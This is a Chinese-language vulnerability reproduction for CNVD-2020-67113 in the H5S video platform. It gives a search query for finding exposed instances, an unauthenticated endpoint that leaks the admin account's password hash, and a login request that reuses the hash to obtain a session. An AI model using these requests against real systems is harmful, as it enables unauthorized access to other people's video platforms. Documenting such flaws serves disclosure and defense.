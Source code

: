 # 零视科技 H5S视频平台 GetUserInfo 信息泄漏漏洞 CNVD-2020-67113

# 零视科技 H5S视频平台 GetUserInfo 信息泄漏漏洞 CNVD-2020-67113

## 漏洞描述

零视技术(上海)有限公司是以领先的视频技术服务于客户，致力于物联网视频开发简单化，依托于HTML5 WebRTC 等新的技术，实现全平台视频播放简单化。 零视技术(上海)有限公司H5S CONSOLE存在未授权访问漏洞。攻击者可利用漏洞访问后台相应端口，执行未授权操作。

## 漏洞影响

```
零视科技 H5S视频平台
```

## 网络测绘

```
title="H5S视频平台|WEB"
```

## 漏洞复现

登录页面

![image-20220525151716667](/images/202205251517010.png)

API文档可以未授权访问

```
/doc/api.html
```

![image-20220525151757329](/images/202205251517406.png)

存在用户账号密码泄漏的接口

```
/api/v1/GetUserInfo?user=admin&session=
```

![image-20220525151838220](/images/202205251518256.png)

其中登录接口中 Password为接口中存在的账号密码，可以直接发送请求获取Cookie

```
/api/v1/Login?user=admin&password=827ccb0eea8a706c4c34a16891f84e7b
```

![image-20220525151916076](/images/202205251519118.png)

请求成功后访问主页面

![image-20220525152043207](/images/202205251520302.png)

